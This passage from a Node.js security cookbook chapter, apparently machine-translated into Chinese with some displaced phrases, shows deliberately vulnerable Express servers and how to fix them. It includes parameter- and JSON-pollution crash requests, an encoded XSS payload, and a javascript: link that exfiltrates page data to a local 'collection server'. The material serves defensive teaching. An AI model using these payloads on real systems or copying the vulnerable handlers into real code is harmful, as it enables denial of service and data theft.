还可以使用`helmet`模块设置其他 HTTP 头。更多信息，请参考头盔文档（[https://helmetjs.github.io/](https://helmetjs.github.io/) ）。

其他一些流行的 web 框架也可以通过以下模块集成`helmet`中间件：

*   Koa.js：https://www.npmjs.com/package/koa-helmet
*   禁食：[https://www.npmjs.com/package/fastify-helmet](https://www.npmjs.com/package/fastify-helmet)

## 还有更多…

`helmet`中间件只是将响应头修改为适当的默认值。为了演示`helmet`在幕后所做的工作，我们可以尝试使用 Node.js core`http`模块注入相同的 HTTP 头：

1.  创建一个名为`http-app`的文件夹，并创建一个`server.js`文件：

    ```js
    $ mkdir http-app
    $ cd http-app
    $ touch server.js 
    ```

2.  在`server.js`文件中添加以下代码：

    ```js
    const http = require("http");
    const server = http.createServer((req, res) => {
      secureHeaders(res);
      res.end("Hello World!");
    });
    const secureHeaders = (res) => {
      res.setHeader("X-DNS-Prefetch-Control", "off");
      res.setHeader("Expect-CT", "max-age=0");
      res.setHeader("X-Frame-Options", "SAMEORIGIN");
      res.setHeader("X-Download-Options", "noopen");
      res.setHeader("X-Content-Type-Options", "nosniff");
      res.setHeader("X-Permitted-Cross-Domain-Policies", 	"none");
      res.setHeader("Referrer-Policy", "no-referrer");
      res.setHeader("X-XSS-Protection", "1; mode=block");
    };
    server.listen(3000, () => {
      console.log("Server listening on port 3000");
    });
    ```

3.  启动服务器：

    ```js
    $ node server.js
    ```

4.  重新运行**cURL**命令，观察头部是否已注入：

    ```js
    $ curl -I http://localhost:3000
    HTTP/1.1 200 OK
    X-DNS-Prefetch-Control: off
    Expect-CT: max-age=0
    X-Frame-Options: SAMEORIGIN
    X-Download-Options: noopen
    X-Content-Type-Options: nosniff
    X-Permitted-Cross-Domain-Policies: none
    Referrer-Policy: no-referrer
    X-XSS-Protection: 1; mode=block
    Date: Fri, 04 Sep 2020 00:17:06 GMT
    Connection: keep-alive
    Keep-Alive: timeout=5 
    ```

这段代码演示了`helmet`中间件在向请求对象注入头时在幕后实现了什么。

## 另见

*   [*第 6 章*](06.html#_idTextAnchor165)*探索 Node.js web 框架*中的*使用 Express.js*配方构建 web 应用
*   本章防止站点交叉脚本攻击
*   本章中的*防范跨站点请求伪造攻击*配方

# 防范 HTTP 参数污染攻击

最容易利用的漏洞组之一是注入攻击，其中 SQL 注入攻击最常见。SQL 注入攻击是指攻击者将恶意 SQL 注入应用，以删除、扭曲或公开存储在数据库中的数据。

如果应用接受任何形式的输入，您需要采取必要的预防措施，以确保恶意输入无法利用您的应用。

参数污染是一种注入攻击，其中 web 应用 HTTP 端点的 HTTP 参数被注入特定的恶意输入。HTTP 参数污染可用于暴露内部数据，甚至导致**拒绝服务**（**DoS**攻击，攻击者试图中断资源并使资源的预期用户无法访问该资源。

在配方中，我们将了解如何保护 HTTP 服务器免受参数污染攻击。参数污染攻击是将恶意输入注入 URL 参数的攻击。

## 准备好了吗

在本教程中，我们将学习如何保护 Express.js 服务器免受 HTTP 参数污染攻击。但我们必须首先创建这个 Express.js 服务器：

1.  为配方创建新目录，并使用`npm`：

    ```js
    $ mkdir express-input
    $ cd express-input
    $ npm init --yes
    ```

    初始化项目
2.  接下来，我们需要安装 Express.js 模块：

    ```js
    $ npm install express
    ```

3.  创建一个名为`server.js`：

    ```js
    $ touch server.js
    ```

    的文件
4.  Add the following code to `server.js`. This will create an Express.js server that is susceptible to an HTTP parameter pollution attack:

    ```js
    const express = require("express");
    const app = express();
    app.get("/", (req, res) => {
      asyncWork(() => {
        const upper = (req.query.msg || "").toUpperCase();
        res.send(upper);
      });
    });
    asyncWork = (callback) => {
      setTimeout(callback, 0);
    };
    app.listen(3000, () => {
      console.log("Server listening on port 3000");
    });
    ```

    请注意，`asyncWork()`功能仅用于演示目的。在实际应用中，可能会发生一些异步任务，例如对数据库或外部服务进行查询。

现在，我们已经创建了一个易受攻击的服务器，我们准备继续介绍这个方法，在这里我们将演示如何利用这个漏洞，并学习如何缓解它。

## 怎么做…

我们已经创建了一个 Express.js 服务器，它响应`/`请求并处理一个参数`msg`。Express.js 服务器返回我们传递的`msg`值，但为大写形式：

1.  首先，启动服务器：

    ```js
    $ node server.js
    Server listening on port 3000
    ```

2.  在第二个终端窗口中，我们应该通过发送请求来测试服务器是否按预期工作：

    ```js
    $ curl http://localhost:3000/\?msg\=hello
    HELLO
    ```

3.  让我们看看当我们两次传递`msg`参数时会发生什么：

    ```js
    $ curl http://localhost:3000/\?msg\=hello\&msg\=world
    curl: (52) Empty reply from server
    ```

4.  Now, if we go back to our first Terminal window, we can see that the server has crashed with the following error:

    ```js
    /Users/bethgriggs/Node-Cookbook/Chapter09/express-input/server.js:6
        const upper = (req.query.msg || "").toUpperCase();
                                            ^
    TypeError: (req.query.msg || "").toUpperCase is not a function
        at Timeout._onTimeout (/Users/bethgriggs/Node-Cookbook/Chapter09/express-input/server.js:6:41)
        at listOnTimeout (internal/timers.js:554:17)
        at processTimers (internal/timers.js:497:7) 
    ```

    因此，仅通过发送重复的参数就可能导致服务器崩溃。这使得攻击者很容易发起有效的拒绝服务攻击。

5.  错误消息状态为`.toUpperCase is not a function`。`toUpperCase()`功能在`String.prototype`上可用。这意味着我们调用此函数的值不是`String.prototype`类型，导致`TypeError`。这是因为多个`msg`值已转换为一个数组。为了防止出现这种情况，我们应该在中添加一些逻辑，当指定多个值时，始终取`msg`的最后一个值。让我们将此逻辑添加到`server.js`的副本中，我们将其命名为`fixed-server.js`：

    ```js
    $ cp server.js fixed-server.js
    ```

6.  现在，将以下两行代码添加到 HTTP GET 请求处理程序中的`asyncWork()`回调函数中。第一行将`req.query.msg`的值提取到名为`msg`的变量中。第二行将使用`array.pop()`方法覆盖`msg`的值，最后一个元素为`Array`：

    ```js
        let msg = req.query.msg;
        if (Array.isArray(msg)) msg = msg.pop();
    ```

7.  下面的变量

    ```js
        const upper = (msg || "").toUpperCase();
    ```

    需要更新为参考：`msg`
8.  启动固定服务器：

    ```js
    $ node fixed-server.js
    ```

9.  Now, let's retry our request where we pass the `msg` parameter twice:

    ```js
    $ curl http://localhost:3000/\?msg\=hello\&msg\=world
    WORLD
    ```

    我们总是将`msg`变量设置为最后一个值的逻辑是有效的。请注意，服务器不再崩溃。

我们已经了解了如何利用 URL 参数引发 DoS 攻击，以及如何在代码中添加逻辑以防范这些攻击。

## 它是如何工作的…

当输入未经适当消毒时，就可能发生注入攻击。在配方示例中，我们错误地假设`msg`参数永远只能是字符串。

许多 Node.js web 框架支持 URL 中的重复参数，尽管没有关于如何处理这些参数的规范。

Express.js 依赖`qs`模块进行 URL 参数处理。`qs`模块处理相同名称的多个参数的方法是将重复的名称转换为数组。如配方中所示，此转换会导致代码中断和意外行为。

在配方中，我们的服务器崩溃是因为它试图调用`Array`全局对象上的`toUpperCase()`函数，而该对象在该类型上不存在。攻击者通过提供一种非常容易被利用的恶意输入方法来禁用/禁用服务器。除了启用 DoS 风格的攻击外，不清理和验证输入参数可能会导致 XSS 攻击。XSS 攻击将在本章的*防范 XSS 攻击*配方中详细介绍。

## 还有更多…

如果在应用代码中使用不当，Node.js`Buffer`对象可能被攻击者利用。`Buffer`对象表示固定长度的字节序列，是 JavaScript`Uint8Array()`类的子类。在许多情况下，您将通过更高级别的 API 与`Buffer`对象交互，例如使用`fs.readFile()`读取文件。但是，在需要直接与二进制数据交互的情况下，可以使用`Buffer`对象，因为它们为数据操作提供了低级别的细粒度 API。

在过去几年中，Node.js 的`Buffer`构造函数的不安全使用引起了人们的广泛关注。早期关于使用`Buffer`构造函数的担忧是，它不是零填充新的`Buffer`实例，这会导致通过内存暴露敏感数据的风险。

重要提示

以下所有示例都是通过 Node.js REPL 创建的。在终端窗口中输入`$ node`即可启动 Node.js REPL。

在 Node.js 6 中，调用`new Buffer(int)`将创建一个新的`Buffer`对象，但不会覆盖任何现有内存：

```js
> new Buffer(10)
<Buffer b7 20 00 00 00 00 00 00 00 2c>
```

人们认识到这对安全的影响。通过在初始化新的`Buffer`对象时不覆盖数据，我们可能会意外地暴露一些以前的内存。在最坏的情况下，这可能会暴露敏感数据。

但是，从 Node.js 8 开始，调用`Buffer(int)`将产生一个大小为`int`的零填充`Buffer`对象：

```js
$ node
> new Buffer(10)
<Buffer 00 00 00 00 00 00 00 00 00 00>
```

调用`new Buffer(int)`仍然不推荐使用，从 Node.js 10 开始，使用此构造函数将发出不推荐使用警告：

```js
> new Buffer(10)
<Buffer 00 00 00 00 00 00 00 00 00 00>
> (node:46906) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
(Use `node --trace-deprecation ...` to show where the warning was created)
```

这是因为使用新的`Buffer(int)`构造函数仍然存在安全风险。现在让我们来演示一下这种风险。

假设我们的应用接受了 JSON 形式的一些用户输入，我们使用以下值之一创建了一个`new Buffer()`对象：

```js
> let greeting = { "msg" : "hello" }
undefined
> new Buffer(greeting.msg)
<Buffer 68 65 6c 6c 6f>
> (node:47025) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
(Use `node --trace-deprecation ...` to show where the warning was created)
```

我们可以看到，这是按预期工作的（忽略弃用警告）。调用`Buffer(string)`将创建一个包含字符串值的新`Buffer`对象。现在，让我们看看如果我们将`msg`设置为一个数字而不是一个字符串会发生什么：

```js
> greeting = { "msg" : 10 }
{ msg: 10 }
> new Buffer(greeting.msg)
<Buffer 00 00 00 00 00 00 00 00 00 00>
> (node:47073) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
(Use `node --trace-deprecation ...` to show where the warning was created)
```

这已经创建了一个`10`大小的`Buffer`对象。因此，攻击者可以通过`msg`属性传递任何值，并创建该大小的`Buffer`对象。攻击者可以通过在每个请求上提供大整数值来发起简单的 DoS 攻击。

弃用警告建议改为使用`Buffer.from(req.body.string)`。通过`Buffer.from()`方法传递一个数字将引发异常：

```js
> new Buffer.from(greeting.msg)
Uncaught:
TypeError [ERR_INVALID_ARG_TYPE]: The first argument must be of type string or an instance of Buffer, ArrayBuffer, or Array or an Array-like Object. Received type number (10)
```

这有助于保护我们的代码不受意外输入的影响。要创建给定大小的新`Buffer`对象，应使用`Buffer.alloc(int)`方法：

```js
> new Buffer.alloc(10)
<Buffer 00 00 00 00 00 00 00 00 00 00>
```

还有一个`Buffer.allocUnsafe()`构造函数。`Buffer.allocUnsafe()`构造函数提供了与 Node.js 7 之前的 Node.js 版本类似的行为，在 Node.js 7 之前的版本中，内存在初始化时并没有完全被零填充：

```js
$ new Buffer.allocUnsafe(10)
<Buffer 00 00 00 00 00 00 00 00 ff ff>
```

出于上述原因，请谨慎使用`Buffer.allocUnsafe()`构造函数。

## 另见

*   [*第 6 章*](06.html#_idTextAnchor165)*探索 Node.js web 框架*中的*使用 Express.js*配方构建 web 应用
*   本章中的*防止 JSON 污染*配方
*   本章中的*防止跨站点脚本攻击*
*   本章中的*防范跨站点请求伪造攻击*

# 防止污染

JavaScript 语言允许更改所有`Object`属性。在 JSON 污染攻击中，攻击者利用这种能力用恶意代码覆盖内置属性和函数。

接受 JSON 作为用户输入的应用最容易受到这些攻击。在最严重的情况下，仅通过在 JSON 输入中提供附加值就可能导致服务器崩溃。通过 JSON，此服务器容易受到 DoS 攻击。

防止 JSON 污染攻击的关键是验证所有 JSON 输入。这可以手动完成，也可以通过定义 JSON 的模式进行验证。

在配方中，我们将演示一个 JSON 污染攻击，并学习如何通过验证 JSON 输入来防范这些攻击。具体来说，我们将使用**另一个 JSON 模式验证器**（**Ajv**）来验证我们的 JSON 输入。

## 准备好了吗

为了准备这个方法，我们必须创建一个易受 JSON 污染攻击的服务器。服务器将接受`msg`和`name`作为 URL 参数，并使用以下值生成的消息进行响应：

1.  首先，让我们创建一个新目录，并使用`npm`：

    ```js
    $ mkdir json-pollution
    $ cd json-pollution
    $ npm init --yes
    ```

    对其进行初始化
2.  然后，创建一个名为`server.js`：

    ```js
    $ touch server.js
    ```

    的文件
3.  将以下代码添加到`server.js`：

    ```js
    const http = require("http");
    const { STATUS_CODES } = http;
    const server = http.createServer((req, res) => {
      if (req.method === "POST" && req.url === "/") {
        greeting(req, res);
        return;
      }
      res.statusCode = 404;
      res.end(STATUS_CODES[res.statusCode]);
    });
    greeting = (req, res) => {
      let data = "";
      req.on("data", (chunk) => (data += chunk));
      req.on("end", () => {
        try {
          data = JSON.parse(data);
        } catch (e) {
          res.end("");
          return;
        }
        if (data.hasOwnProperty("name")) {
          res.end(`${data.msg} ${data.name}`);
        } else {
          res.end(data.msg);
        }
      });
    };
    server.listen(3000, () => {
      console.log("Server listening on port 3000");
    });
    ```

现在，我们已经创建了易受攻击的服务器，我们准备继续进行配方步骤。

## 怎么做…

我们将演示 JSON 污染攻击，并学习如何使用 JSON 模式保护我们的应用免受这些攻击：

1.  使用以下命令启动服务器：

    ```js
    $ node server.js
    Server listening on port 3000
    ```

2.  Next, we will send an HTTP POST request to `http://localhost:3000` using **cURL**. We will supply the **cURL** command with the `-X` argument to specify the HTTP request method and the `-d` argument to supply the data. In a second Terminal window, send the following `cURL` request:

    ```js
    $ curl -H "Content-Type: application/json" -X POST -d '{"msg": "Hello", "name": "Beth" }' http://localhost:3000/                         
    Hello Beth
    ```

    正如预期的那样，服务器以问候语进行响应。

3.  Now, let's try altering the payload to send an additional JSON property named `hasOwnProperty`:

    ```js
    $ curl -H "Content-Type: application/json" -X POST -d '{"msg": "Hello", "name": "Beth", "hasOwnProperty": 0 }' http://localhost:3000/ 
    curl: (52) Empty reply from server
    ```

    注意来自服务器的空回复。

4.  检查正在运行服务器的终端窗口，您应该看到它已崩溃，出现以下错误：

    ```js
    /Users/bethgriggs/Node-Cookbook/Chapter09/json-pollution/server.js:25
        if (data.hasOwnProperty("name")) {
                 ^
    TypeError: data.hasOwnProperty is not a function
        at IncomingMessage.<anonymous> (/Users/bethgriggs/Node-Cookbook/Chapter09/json-pollution/server.js:25:14)
        at IncomingMessage.emit (events.js:314:20)
        at endReadableNT (_stream_readable.js:1244:12)
        at processTicksAndRejections (internal/process/task_	queues.js:80:21)
    ```

5.  我们的服务器已经崩溃，因为 JSON 输入中的`hasOwnProperty`值已经覆盖了`hasOwnProperty()`函数。我们可以通过使用 Ajv 模块验证 JSON 输入来防止这种情况。从`npm`：

    ```js
    $ npm install ajv
    ```

    安装 Ajv 模块
6.  接下来，我们将把我们的`server.js`文件复制到一个名为`fixed-server.js`：

    ```js
    $ cp server.js fixed-server.js
    ```

    的新文件中
7.  将以下代码添加到`fixed-server.js`以导入`ajv`模块，并为我们的 JSON 输入定义 JSON 模式。请注意，此代码应添加在`STATUS_CODES`解构：

    ```js
    const Ajv = require("ajv");
    const ajv = new Ajv();
    const schema = {
      title: "Greeting",
      properties: {
        msg: { type: "string" },
        name: { type: "string" },
      },
      additionalProperties: false,
      required: ["msg"],
    };
    const validate = ajv.compile(schema);
    ```

    的正下方
8.  The greeting function needs to be altered to validate the JSON input against the schema:

    ```js
    greeting = (req, res) => {
      let data = "";
      req.on("data", (chunk) => (data += chunk));
      req.on("end", () => {
        try {
          data = JSON.parse(data);
        } catch (e) {
          res.end("");
          return;
        }
        if (!validate(data, schema)) {
          res.end("");
          return;
        }
        if (data.hasOwnProperty("name")) {
          res.end(`${data.msg} ${data.name}`);
        } else {
          res.end(data.msg);
        }
      });
    };
    ```

    我们添加了一个条件语句，该语句在验证模式的`greeting()`函数中调用`validate()`方法。

9.  启动固定服务器：

    ```js
    $ node fixed-server.js
    ```

10.  重试相同的请求，尝试覆盖`hasOwnProperty()`方法。请注意，它没有收到响应，并且不再使服务器崩溃：

    ```js
    $ curl -H "Content-Type: application/json" -X POST -d '{"msg": "Hello", "name": "Beth", "hasOwnProperty": 0 }' http://localhost:3000/
    ```

我们通过根据 JSON 模式验证输入来保护服务器免受 JSON 污染攻击。

## 它是如何工作的…

在配方中，我们演示了 JSON 污染攻击。为此，我们创建了一个简单的 Express.js 服务器，该服务器在`http://localhost:3000`处有一个 HTTP POST 请求路由处理程序。对于每个请求，都会调用我们的`greeting()`函数。`greeting()`函数将请求数据解析为 JSON，然后聚合作为请求参数提供的`msg`和`name`值。聚合字符串作为请求的响应返回。

在我们的`server.js`文件中，我们使用了`Object.prototype.hasOwnProperty()`方法，这是一种内置方法，可用于所有对象。但是，可以通过在 JSON 输入中传递一个`hasOwnProperty`属性来重写`Object.prototype.hasOwnProperty()`方法。因为我们在 JSON 输入中将`hasOwnProperty`值设置为`0`，所以当我们的代码试图调用`data.hasOwnProperty()`时，服务器崩溃——因为该值已被重写为`0`，而不是函数。

当一个面向公众的应用接受 JSON 输入时，有必要在应用中采取措施，防止 JSON 污染攻击。保护应用免受这些攻击的方法之一是使用 JSON 模式验证器。它验证了 JSON 输入的属性和值与我们期望的匹配。在配方中，我们使用 Ajv 定义了一个模式来实现这一点。Ajv 使用**JSON 模式**（[http://json-schema.org](http://json-schema.org) ）定义对象模式的格式。

我们的模式要求 JSON 输入具有`msg`属性并允许可选`name`属性。它还指定两个输入都必须是字符串类型。当我们在 JSON 输入中提供`hasOwnProperty`时，`additionalProperties: false`配置不允许附加属性，导致验证失败，因此无法覆盖`Object.prototype.hasOwnProperty`方法。

## 另见

*   本章中的*防范 HTTP 参数污染攻击*配方
*   本章防止站点交叉脚本攻击
*   本章中的*防范跨站点请求伪造攻击*配方

# 防止跨站点脚本攻击

XSS 攻击是客户端注入攻击，将恶意脚本注入网站。XSS 漏洞非常危险，因为它们可能会危害受信任的网站。

在本食谱中，我们将演示 XSS 漏洞，并了解如何防范它们。

## 准备好了吗

在此配方中，我们将创建易受 XSS 攻击的 Express.js 服务器。我们必须首先创建易受攻击的 Express.js 服务器：

1.  首先创建一个目录【让我们一起工作】
2.  现在我们需要安装`express`：

    ```js
    $ npm install express
    ```

3.  创建文件以存储 Express.js 服务器：

    ```js
    $ touch server.js
    ```

4.  将以下内容添加到`server.js`。这将创建一个服务器，用于呈现易受 XSS 攻击的简单 HTML 网页：

    ```js
    const express = require("express");
    const app = express();
    app.get("/", (req, res) => {
      const { previous, lang, token } = req.query;
      getServiceStatus((status) => {
        res.send(`
          <h1>Service Status</h1>
          <div id=status>
            ${status}
          </div>
          <div>
          <a href="${previous}${token}/${lang}">Back</a>
          </div>
        `);
      });
    });
    getServiceStatus = (callback) => {
      const status = "All systems are running.";
      callback(status);
    };
    app.listen(3000, () => {
      console.log("Server listening on port 3000");
    });
    ```

现在，我们准备好继续下一步。

## 怎么做…

在此配方中，我们将学习如何利用和缓解 XSS 攻击：

1.  首先，使用以下命令启动服务器：

    ```js
    $ node server.js
    ```

2.  The server is emulating a service status web page. The web page accepts three parameters: `previous`, `token`, and `lang`. It's common practice to have parameters such as these injected into URLs in real-world web applications. Navigate to `http://localhost:3000/?previous=/&token=TOKEN&lang=en` and expect to see the following output:

    

    图 9.9–显示“所有系统都在运行”的演示服务状态网页

3.  现在，我们可以进行 XSS 攻击。我们将创建一个 URL，该 URL 将注入参数以将服务状态消息更改为`All systems are down!`。我们的目标是通过 URL 参数注入以下 JavaScript:

    ```js
    document.getElementById("status").innerHTML="All systems are down!";
    ```

4.  我们可以使用以下 HTTP 请求注入这个脚本：

    ```js
    http://localhost:3000/?previous=%22%3E%3Cscri&token=pt%3Edocument.getElementById(%22status%22).innerHTML=%22All%20systems%20are%20down!%22;%3C&lang=script%3E%20%3Ca%20href=%22/
    ```

5.  Now, the web page will show **All systems are down!**. So, visitors to our legitimate service status page will see a malicious message. The method of these attacks typically involves sending the malicious URL to an unsuspecting consumer of the website:

    

    图 9.10–显示“所有系统均已关闭”的演示服务状态网页

6.  We can see the code that has been injected using the **View Page Source** interface in your browser. If you're on macOS, you should be able to use the *Command* + *Option* + *I* shortcut to open the **View Page Source** interface:

    

    图 9.11–显示注入 JavaScript 的查看页面源代码

7.  为了修复应用，我们需要对输入进行转义/净化。将`server.js`文件复制到名为`fixed-server.js`：

    ```js
    $ cp server.js fixed-server.js
    ```

    的文件中
8.  为了逃避或清理输入，我们将使用一个名为`he`的模块。从`npm`注册表安装`he`：

    ```js
    $ npm install he
    ```

9.  我们需要在`fixed-server.js`中添加`he`的进口。在`express`模块导入下方添加以下代码行：

    ```js
    const he = require("he");
    ```

10.  然后，我们可以使用`he`设置`href`值。更改路由处理程序如下：

    ```js
    app.get("/", (req, res) => {
      const { previous, lang, token } = req.query;
      getServiceStatus((status) => {
        const href = he.encode(`${previous}${token}/${lang}`);
        res.send(`
          <h1>Service Status</h1>
          <div id=status>
            ${status}
          </div>
          <div>
          <a href="${href}">Back</a>
          </div>
        `);
      });
    });
    ```

11.  启动固定服务器：

    ```js
    $ node fixed-server.js
    Server listening on port 3000
    ```

12.  再次尝试访问恶意 URL:

    ```js
    http://localhost:3000/?previous=%22%3E%3Cscri&token=pt%3Edocument.getElementById(%22status%22).innerHTML=%22All%20systems%20are%20down!%22;%3C&lang=script%3E%20%3Ca%20href=%22/
    ```

13.  观察这一次，我们得到预期的**所有系统都在运行。**输出。我们的注入攻击不再有效：


图 9.12–显示“所有系统都在运行”的演示服务状态网页

我们已经使用`he`模块来防止 XSS 攻击。

## 它是如何工作的…

XSS 攻击是客户端注入攻击，恶意脚本注入可信网站。XSS 攻击的一般流程如下所示：

1.  恶意输入通常通过 web 请求进入应用。
2.  该输入在网页上呈现为动态内容，因为该输入未经过适当的清理。

XSS 攻击的两种主要类型是持久 XSS 和反射 XSS。对于持久的 XSS 攻击，恶意数据被注入系统的持久层。例如，可以将其注入数据库中的字段中。

反射的 XSS 攻击依赖于与服务器的单个交互，例如，发送单个 HTTP 请求。配方中演示的攻击是通过包含恶意输入的 HTTP 请求发送的反射 XSS 攻击。

配方中的漏洞是由于**返回**链接的`href`值的公式化方式造成的。我们通过分配`%22%3E%3Cscri`值开始注入，该值在解码时等于`"><scri`。这个值关闭一个 HTML 锚定标记并启动一个 HTML 脚本元素，准备注入我们的脚本。其余值设置为将以下代码注入网页：

```js
"><script>document.getElementById("status").innerHTML="All systems are down!";</script> <a href="
```

重要提示

您可以使用 Node.js 的`decodeURI()`方法来解码编码的 URI。例如，`$ node -p "decodeURI('%22%3E%3Cscri')"`将输出`"><scri`。

请注意，攻击不会在单个参数下工作，因为许多现代的浏览器都内置了 XSS 审计员，以防止`<script>`标记的明显注入。

我们使用`he`模块修复了此漏洞。我们使用`he`模块的`encode()`功能。此函数接受预期为 HTML 或 XML 输入的文本，并以转义形式返回。这就是我们如何清理输入并阻止`<script>`标记被注入网页的方法。

所有输入到服务器的信息在使用前都应该经过验证和消毒。这包括对数据存储的间接输入，因为这些输入可用于执行持久的 XSS 攻击。

## 还有更多…

还有一些其他类型的 XSS 攻击，我们仍然可以使用它们来伤害我们的服务器。让我们演示这些攻击，并了解如何帮助预防它们。

### 协议处理程序 XSS

配方中的固定服务器仍然容易受到其他类型 XSS 的攻击。在这个场景中，我们将假装状态值是攻击者无法读取的特权信息。

此攻击的流程是首先创建恶意数据收集服务器，然后向网页中注入脚本以获取信息并将其转发给数据收集服务器。

为了演示这一点，我们首先需要使用以下步骤创建数据收集服务器：

1.  仍在`express-xss`目录中时，创建一个名为`colletion-server.js`：

    ```js
    $ touch collection-server.js
    ```

    的文件
2.  然后，将以下代码添加到`collection-server.js`：

    ```js
    require("http")
      .createServer((req, res) => {
        console.log(
          req.connection.remoteAddress,
          Buffer.from(req.url.split("/attack/")[1], 	"base64").toString().trim()
        );
      })
      .listen(3001, () => {
        console.log("Collection Server listening on port 	3001");
      });
    ```

3.  现在，我们可以启动数据采集服务器：

    ```js
    $ node collection-server.js
    Collection Server listening on port 3001
    ```

4.  在第二个终端窗口中，重新启动`fixed-server.js`文件：

    ```js
    $ node fixed-server.js
    Server listening on port 3000
    ```

5.  In your browser window, visit the following URL:

    ```js
    http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/
    ```

    网页看起来应该和以前一样，仍然显示**所有系统都在运行。**消息。但是 XSS 注入已经将**Back**超链接的`href`属性更新为指向以下内容：

    ```js
    javascript:(new Image().src)=``http://localhost:3001/attack/${btoa(document.getElementById(status).innerHTML)}``,0 /
    ```

    该链接以`javascript:`开头，这是一个允许 JavaScript 作为 URI 执行的协议处理程序。单击此链接时，将创建一个 HTML 图像元素（``，其`src`值设置为数据采集服务器的地址。`btoa()`函数 Base64 对状态值进行编码。将`,0`附加到末尾，以使表达式的计算结果为`false`——确保未渲染图像。

6.  点击**后退**链接，检查数据采集服务器。您将看到状态已收到，如下所示：

    ```js
    $ node collection-server.js
    ::1 All systems are running.
    ```

要强调这些攻击的危险性，请设想这是真实的特权数据，如凭据或令牌。通过向用户发送恶意链接并让他们点击，我们可以通过我们的收集服务器获取他们的敏感数据。

服务器仍然易受攻击，因为我们仍然可以将值注入`href`属性。避免这种情况的最安全方法是不允许输入确定`href`属性的值：

1.  让我们将`fixed-server.js`复制到一个新文件并修复它：

    ```js
    $ cp fixed-server.js protocol-safe-server.js
    ```

2.  我们将通过安装`escape-html`模块

    ```js
    $ npm install escape-html
    ```

    来修复此漏洞
3.  导入`protocol-safe-server.js`中的`escape-html`模块，将`he`模块导入替换为以下行：

    ```js
    const escapeHTML = require("escape-html");
    ```

4.  然后将`href`赋值更改为以下内容：

    ```js
    const href = escapeHTML(`/${previous}${token}/${lang}`);
    ```

5.  现在，开始`protocol-safe-server.js`：

    ```js
    $ node protocol-safe-server
    Server listening on port 3000
    ```

6.  在数据采集服务器仍在运行的情况下，重新访问恶意 URL，然后单击**返回**。

    ```js
    http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/
    ```

您将观察到请求失败，并且数据采集服务器没有收到权限数据。这是因为指向恶意服务器的链接已被清除。

重要提示

本章介绍了 HTML 编码和可用于帮助转义 HTML 的模块。类似地，为了转义 JavaScript，`jsesc`模块（[https://www.npmjs.com/package/jsesc 可以使用](https://www.npmjs.com/package/jsesc)。然而，将输入嵌入到 JavaScript 通常被认为是高风险，所以你应该评估你这样做的原因。

### 参数验证

浏览器在地址栏中只能显示很长 URL 的一部分。这意味着对于具有许多参数的非常长的 URL，您可能看不到 URL 末尾附加了什么。这使得识别恶意 URL 更具挑战性。

如果您的应用的典型用法不涉及很长的 URL，那么明智的做法是为您的应用将接受的 URL 添加一些约束。让我们现在就这样做：

1.  将`server.js`文件复制到名为`constraints-server.js`：

    ```js
    $ cp server.js constraints-server.js
    ```

    的新文件中
2.  定义一个验证`constraints-server.js`文件

    ```js
    validateParameters = ({ previous, token, lang }, query) => {
      return (
        Object.keys(query).length <= 3 &&
        typeof lang === "string" &&
        lang.length === 2 &&
        typeof token === "string" &&
        token.length === 16 &&
        typeof previous === "string" &&
        previous.length <= 16
      );
    };
    ```

    中 URL 参数的`validateParameters()`函数
3.  现在，我们需要调用请求处理程序中的`validateParameters()`函数。将请求处理程序更改为以下内容：

    ```js
    app.get("/", (req, res) => {
      const { previous, lang, token } = req.query;
      if (!validateParameters({ previous, token, lang }, 	req.query)) {
        res.sendStatus(422);
        return;
      }
      getServiceStatus((status) => {
        res.send(`
          <h1>Service Status</h1>
          <div id=status>
            ${status}
          </div>
          <div>
          <a href="${previous}${token}/${lang}">Back</a>
          </div>
        `);
      });
    });
    ```

4.  启动`constraints-server.js`：

    ```js
    $ node constraints-server.js
    Server listening on port 3000
    ```

5.  Test by navigating to the following URLs, all of which should fail validation checks:

    [http://localhost:3000/?previous=sixteencharacter &标记=十六个字符](http://localhost:3000/?previous=sixteencharacter&token=sixteencharacter)

    [http://localhost:3000/?previous=sixteencharacter &令牌=十六字符&lang=en&额外=值](http://localhost:3000/?previous=sixteencharacter&token=sixteencharacter&lang=en&extra=value)

    [http://localhost:3000/?previous=characters &令牌=十六字符&lang=abc](http://localhost:3000/?previous=characters&token=sixteencharacter&lang=abc)

    以下 URL 应该可以工作，因为它满足所有约束条件：

    [http://localhost:3000/?previous=sixteencharacter &令牌=十六字符&lang=en](http://localhost:3000/?previous=sixteencharacter&token=sixteencharacter&lang=en)

任何用户输入都应该转义并在可能的情况下验证，以帮助防止 XSS 注入攻击。

## 另见

*   [*第 6 章*](06.html#_idTextAnchor165)*探索 Node.js web 框架*中的*使用 Express.js*配方构建 web 应用
*   本章中的*防范 HTTP 参数污染攻击*配方
*   本章中的*防止 JSON 污染*配方
*   本章中的*防范跨站点请求伪造攻击*

# 防范跨站点请求伪造攻击

CSRF 是一种攻击，恶意 web 应用会导致用户的 web 浏览器在用户登录的另一个受信任 web 应用上执行操作。

在本教程中，我们将学习如何保护 Express.js 服务器免受 CSRF 攻击。

重要提示

近年来，浏览器的安全性有了显著提高。在任何现代浏览器上复制 CSRF 攻击都是非常困难的。然而，由于仍有许多用户使用较旧的浏览器，因此了解这些攻击是如何工作的以及如何防范它们是很重要的。在配方中，我们将在同一个域上复制 CSRF 攻击。参考*开发者：准备新 SameSite=None；安全 Cookie 设置*（[https://blog.chromium.org/2019/10/developers-get-ready-for-new.html](https://blog.chromium.org/2019/10/developers-get-ready-for-new.html) ）Chrome 博客，其中介绍了谷歌 Chrome 为防止 CSRF 攻击而进行的一些更新。

## 准备好了吗

1.  首先，为该配方创建一个目录，并使用`npm`：

    ```js
    $ mkdir express-csrf
    $ cd express-csrf
    $ npm init --yes
    $ npm install express express-session body-parser
    ```

    初始化项目
2.  创建一个名为`server.js`的文件，该文件将包含易受 CSRF 攻击的服务器：

    ```js
    $ touch server.js
    ```

3.  在`server.js`中导入所需模块，注册`express-session`中间件：

    ```js
    const express = require("express");
